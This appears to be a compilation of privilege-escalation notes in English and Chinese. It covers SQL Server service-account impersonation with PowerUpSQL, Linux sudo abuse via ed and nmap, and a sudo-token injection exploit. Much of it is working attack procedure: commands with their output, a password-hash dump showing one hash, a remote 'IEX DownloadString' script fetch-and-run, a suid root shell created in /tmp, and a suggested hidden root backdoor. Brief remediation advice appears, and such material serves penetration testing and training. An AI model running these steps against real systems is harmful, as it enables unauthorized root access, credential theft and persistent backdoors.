**\#1).DBMS:**

**How to get SQL Server Sysadmin Privileges as a Local Admin with PowerUpSQL:**

Regardless of a SQL Server service account’s privileges on the operating system,
it has sysadmin privileges in SQL Server by default.





A few handy functions for impersonating the SQL Server service account with
PowerUpSQL.

Invoke-SQLImpersonateService

Invoke-SQLImpersonateService can be used to impersonate a SQL Server service
account based on an instance name. This can come in handy when you’re a local
admin on a box and want to be able to run all the PowerUpSQL functions as a
sysadmin against a local SQL Server instance. Below is a basic example.

1. Log into the target system as a local or domain administrator. Then verify
who you are.

PS C:\\\> whoami

demo\\administrator

2. Next load the PowerShell module PowerUpSQL.

PS C:\\\> IEX(New-Object
System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

3. List the first available SQL Server instance on the local system.

PS C:\\\> Get-SQLInstanceLocal \| Select-Object -First 1

ComputerName : MSSQLSRV04

Instance : MSSQLSRV04\\BOSCHSQL

ServiceDisplayName : SQL Server (BOSCHSQL)

ServiceName : MSSQL\$BOSCHSQL

ServicePath : "C:\\Program Files\\Microsoft SQL
Server\\MSSQL12.BOSCHSQL\\MSSQL\\Binn\\sqlservr.exe" -sBOSCHSQL

ServiceAccount : NT Service\\MSSQL\$BOSCHSQL

State : Running



4. Verify that the local administrator does not have sysadmin privileges on the
local SQL Server instance using the Get-SQLServerInfo function.

PS C:\\\> Get-SQLServerInfo -Verbose -Instance MSSQLSRV04\\BOSCHSQL

VERBOSE: MSSQLSRV04\\BOSCHSQL : Connection Success.

ComputerName : MSSQLSRV04

Instance : MSSQLSRV04\\BOSCHSQL

DomainName : DEMO

ServiceProcessID : 1620

ServiceName : MSSQL\$BOSCHSQL

ServiceAccount : NT Service\\MSSQL\$BOSCHSQL

AuthenticationMode : Windows and SQL Server Authentication

Clustered : No

SQLServerVersionNumber : 12.0.4100.1

SQLServerMajorVersion : 2014

SQLServerEdition : Developer Edition (64-bit)

SQLServerServicePack : SP1

OSArchitecture : X64

OsVersionNumber : 6.2

Currentlogin : DEMO\\Administrator

IsSysadmin : No

ActiveSessions : 1

You should notice that the “CurrentLogin” is your current user account, and
“IsSysadmin” is “No”.



5. Impersonate the SQL Server service account for the target instance.

PS C:\\\> Invoke-SQLImpersonateService -Verbose -Instance MSSQLSRV04\\BOSCHSQL

VERBOSE: MSSQLSRV04\\BOSCHSQL : DEMO\\administrator has local admin privileges.

VERBOSE: MSSQLSRV04\\BOSCHSQL : Impersonating SQL Server process:

VERBOSE: MSSQLSRV04\\BOSCHSQL : - Process ID: 1620

VERBOSE: MSSQLSRV04\\BOSCHSQL : - Service Account: NT Service\\MSSQL\$BOSCHSQL

VERBOSE: MSSQLSRV04\\BOSCHSQL : Successfully queried thread token

VERBOSE: MSSQLSRV04\\BOSCHSQL : Successfully queried thread token

VERBOSE: MSSQLSRV04\\BOSCHSQL : Selecting token by Process object

VERBOSE: MSSQLSRV04\\BOSCHSQL : Done.



6. Verify that the SQL Server service account for the target instance was
successful by running the Get-SQLServerInfo command.

PS C:\\\> Get-SQLServerInfo -Verbose -Instance MSSQLSRV04\\BOSCHSQL

VERBOSE: MSSQLSRV04\\BOSCHSQL : Connection Success.

ComputerName : MSSQLSRV04

Instance : MSSQLSRV04\\BOSCHSQL

DomainName : DEMO

ServiceProcessID : 1620

ServiceName : MSSQL\$BOSCHSQL

ServiceAccount : NT Service\\MSSQL\$BOSCHSQL

AuthenticationMode : Windows and SQL Server Authentication

Clustered : No

SQLServerVersionNumber : 12.0.4100.1

SQLServerMajorVersion : 2014

SQLServerEdition : Developer Edition (64-bit)

SQLServerServicePack : SP1

OSArchitecture : X64

OsMachineType : ServerNT

OSVersionName : Windows Server 2012 Standard

OsVersionNumber : 6.2

CurrentLogin : NT Service\\MSSQL\$BOSCHSQL

IsSysadmin : Yes

ActiveSessions : 1

the “CurrentLogin” is now the SQL Server service account, and “IsSysadmin” is
now “Yes”. At this point, any PowerUpSQL function you run will be in a sysadmin
context.

7. Once you’re all done doing what you need to do, revert to your original user
context with the command below.

PS C:\\\> Invoke-SQLImpersonateService -Verbose -Rev2Self

Invoke-SQLImpersonateServiceCmd:

Below is an example showing how to quickly start a cmd.exe in the context of
each SQL service account associated with the instance MSSQLSRV04\\BOSCHSQL. It’s
a little silly, but it seems to be an effective way to illustrate risk around
SQL Server service accounts during demos.

Note: You can also set a custom command to run using the -Exec command.

PS C:\\\> Invoke-SQLImpersonateServiceCmd -Instance MSSQLSRV04\\BOSCHSQL

Note: The verbose flag will give you more info if you need it.

MSSQLSRV04\\BOSCHSQL - Service: SQL Full-text Filter Daemon Launcher (BOSCHSQL)
- Running command "cmd.exe" as NT Service\\MSSQLFDLauncher\$BOSCHSQL

MSSQLSRV04\\BOSCHSQL - Service: SQL Server Reporting Services (BOSCHSQL) -
Running command "cmd.exe" as NT Service\\ReportServer\$BOSCHSQL

MSSQLSRV04\\BOSCHSQL - Service: SQL Server Analysis Services (BOSCHSQL) -
Running command "cmd.exe" as NT Service\\MSOLAP\$BOSCHSQL

MSSQLSRV04\\BOSCHSQL - Service: SQL Server (BOSCHSQL) - Running command
"cmd.exe" as NT Service\\MSSQL\$BOSCHSQL

All done.

When the function is done running you should have a cmd.exe window for each of
the services.



Get-SQLServerPasswordHash

Mike Manzotti (\@mmanzo_) was nice enough to write a great function for pulling
SQL Server login password hashes. It can be quite handy during penetration tests
when searching for commonly shared account passwords. He also added a -migrate
switch to automatically escalate to sysadmin if your executing against a local
instance with local administrator privileges.

PS C:\\\> Get-SQLServerPasswordHash -Verbose -Instance MSSQLSRV04\\BOSCHSQL
-Migrate

VERBOSE: MSSQLSRV04\\BOSCHSQL : Connection Success.

VERBOSE: MSSQLSRV04\\BOSCHSQL : You are not a sysadmin.

VERBOSE: MSSQLSRV04\\BOSCHSQL : DEMO\\administrator has local admin privileges.

VERBOSE: MSSQLSRV04\\BOSCHSQL : Impersonating SQL Server process:

VERBOSE: MSSQLSRV04\\BOSCHSQL : - Process ID: 1568

VERBOSE: MSSQLSRV04\\BOSCHSQL : - ServiceAccount: NT Service\\MSSQL\$BOSCHSQL

VERBOSE: MSSQLSRV04\\BOSCHSQL : Successfully queried thread token

VERBOSE: MSSQLSRV04\\BOSCHSQL : Successfully queried thread token

VERBOSE: MSSQLSRV04\\BOSCHSQL : Selecting token by Process object

VERBOSE: MSSQLSRV04\\BOSCHSQL : Attempting to dump password hashes.

VERBOSE: MSSQLSRV04\\BOSCHSQL : Attempt complete.

VERBOSE: 3 password hashes recovered.

ComputerName : MSSQLSRV04

Instance : MSSQLSRV04\\BOSCHSQL

PrincipalId : 1

PrincipalName : sa

PrincipalSid : 1

PrincipalType : SQL_LOGIN

CreateDate : 4/8/2003 9:10:35 AM

DefaultDatabaseName : master

PasswordHash :
0x0200698883dbec3fb88c445d43b99794043453384d13659ce72fc907af5a34534563c1624d935279f6447be9ec44467d4d1ef56d8e14a91fe183450520f560c2

[TRUNCATED]

Note: Mike also mentioned that it’s been working well remotely over WMI.

General Recommendations

Below are some basic recommendations that can be used to reduce the risk of the
common escalation techniques outlined above.

Upgrade to Windows Server 2012 or greater to support common OS controls.

Upgrade to SQL Server 2012 or greater to support common SQL Server controls.

Do not allow the storage of wdigest passwords in memory.

Do enable process protection.

Do use managed service accounts for standalone SQL Servers.

Do use least privilege domain accounts for clustered SQL Servers.

“Run separate SQL Server services under separate Windows accounts. Whenever
possible, use separate, low-rights Windows or Local user accounts for each SQL
Server service.” For more information, see
https://docs.microsoft.com/en-us/sql/sql-server/install/security-considerations-for-a-sql-server-installation\#isolated_services

Consider running endpoint protection that can identify common remote code
injection techniques.

**\#2). Linux:**

**ATT&CK: Privilege Escalation-3).Linux**

**ed Privilege Escalation(已复现):**

Here in this article, we are going to introduce a line-oriented text editor
command i.e. “ed” which is used to generate, display, alter and operate text
files. All ed commands operate on whole lines or ranges of lines; e.g., the “d”
command deletes lines; the “m” command moves lines, “t” command copy the lines
and so on, therefore, now we will check that how we can successfully execute our
task of Privilege Escalation by accomplishing all these significant of “ed”
command.

Summary to ed

ed command in Linux is used for initiation of the “ed text editor” which is a
line-based text editor. Its minimal interface tendency makes it less complex for
working on text files. It helps user to perform many operations like creating,
editing, displaying and manipulating the files.

Editing is done in two distinct modes: “command and input”. In the “command”
mode “ed” reads command from the standard input and execute to manipulate the
contents of the editor buffer whereas when an input command, such as ‘m’ (move),
‘d’ (delete), ‘t’ (copy) or ‘c’ (change), is given, ed enters for its “input
mode”.

It is the oldest editor which was developed in 1969 in the UNIX and is succeeded
by vi and emacs text editor.

















Exploiting ed

Sudo Rights Lab setups for Privilege Escalation

Now we will start to perform privilege escalation for “ed”. For doing so we need
to set up our lab of ed command with administrative rights. After that, we will
check for the “ed command” that what effect it has after getting sudo rights and
how we can use it more for privilege escalation.











Now after knowing the fact that test user attains sudo rights so, taking this
benefit here we can use ed command to access empty buffer to call bash/sh shell,
with higher privileges if permitted on sudo.

**Privilege Escalation by injecting process possessing sudo tokens(已复现):**

We all noticed that sometimes sudo doesn't ask us for a password because he
remembers us. How does he remember us and how does he identifies us? Can we
falsify our identity and become root? As far as I know this research is not yet
documented, but let me know if it is. Indeed sudo creates a file for each linux
user in /var/run/sudo/ts/[username]. These files contain both successful and
failed authentications, then sudo uses these files to remember all the
authenticated processes.



This repository provides you:

>   A way to gain root privilege by abusing sudo tokens (Don't be too happy
>   there are requirements).

>   A tool to forge sudo tokens for a given process (write_sudo_token in
>   ./extra_tools/).

>   A tool to parse sudo tokens for forensic (read_sudo_token_forensic and
>   read_sudo_token in ./extra_tools).

>   A technique to transform any root arbitrary file write into stable root code
>   execution.

>   A clue to make a exploit that does not require ptrace or that the targeted
>   process is alive.

exploit.sh injects all shell processes owned by the current user and use their
sudo token to validate our own sudo token. It's barely 3 lines of shell, have a
look.

This is far from a generic privesc without requirements but it works, for
instance if you have a RCE and don't have the user password but the victim uses
sudo then you can easily get root by stealing his token.

Requirements

>   Ptrace fully enabled (/proc/sys/kernel/yama/ptrace_scope == 0).

>   Current user must have living process that has a valid sudo token with the
>   same uid.

The default password timeout is 15 minutes. So if you use sudo twice in 15
minutes (900 seconds), you will not be asked to type the user’s password again.

step one:

默认是1，重启后恢复默认



启动具有有效token且相同uid的进程(默认15mins内有效)



step two:

打开新的shell执行exp脚本(sudo输入密码时ctrl+c终止，此操作会创建一个无效的token)



exploit v2 creates a suid sh in /tmp/sh

For those with less luck with exploit v1 try the v2

\$ ./exploit_v2.sh

Current process : 2441

chmod: changing permissions of 'activate_sudo_token': Operation not permitted

Injecting process 1721 -\> bash

Injecting process 2433 -\> bash

cat: /proc/2446/comm: No such file or directory

Injecting process 2446 -\>

\$ /tmp/sh -p

\# id

uid=1001(test) gid=1001(test) euid=0(root) egid=0(root)
groups=0(root),1001(test)

Forensic, DFIR?

Printing to be improved but each process sudo attempt has one entry in
/var/run/sudo/ts/[username]. Also these files are stored in tmpfs(ram), one
could write a volatility plugin to parse this information to gather sudo
attempt.

./read_sudo_token_forensic \< /var/run/sudo/ts/user

version, flags, uid, sid, starttime_sec, starttime_nsec

2, 0, 0, 0, 0, 0

2, 0, 1001, 1145, 188, 660000000

2, 0, 1001, 24878, 7461, 490000000

2, 0, 1001, 24578, 6974, 10000000

Arbitrary write to root

If you have an abitrary write you can create a sudo token for your current
process to gain root code execution. checkout './write_sudo_token \$\$ \>
/var/run/sudo/ts/[username]' in extra_tools.

Silver sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token \$\$' in ./extra_tools

Why

I was looking for a way to steal dead process sudo token, but it doesn't look
possible because they are associated by ((process start time and process session
id) or (tty start time and tty session id)). Session id (process pid) can be
impersonated but the process start time is not fakable.

How to remediate?

>   1.Update your sudo version

>   2.Reduce ptrace power, example edit /etc/sysctl.conf with
>   kernel.yama.ptrace_scope = 1

**Abusing SUDO (Linux Privilege Escalation)(已复现):**

If you have a limited shell that has access to some programs using the
commandsudo you might be able to escalate your privileges. here I show some of
the binary which helps you to escalate privilege using the sudo command. But
before Privilege Escalation let’s understand some sudoer file syntax and what is
sudo command is? ;).

The SUDO(Substitute User and Do) command, allows users to delegate privileges
resources proceeding activity logging. In other words, users can execute command
under root ( or other users) using their own passwords instead of root’s one or
without password depending upon sudoers setting The rules considering the
decision making about granting an access, we can find in /etc/sudoers file.

Sudoer File Syntax.

root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any)
users, and run ALL (any) command.

user ALL= /sbin/poweroff

Explain 2: The above command, makes the user can from any terminal, run the
command power off using user’s password.

user ALL=(root) NOPASSWD: /usr/bin/find

Explain 3: The above command, make the user can from any terminal, run the
command find as root user without password.

Exploiting SUDO Users

To Exploiting sudo user u need to find which command u have to allow.

sudo -l



Escalate Privilege to root user









sudo nmap --interactive(**nmap version 2.02 to 5.21**)

nmap\> !sh

sh-4.1\#





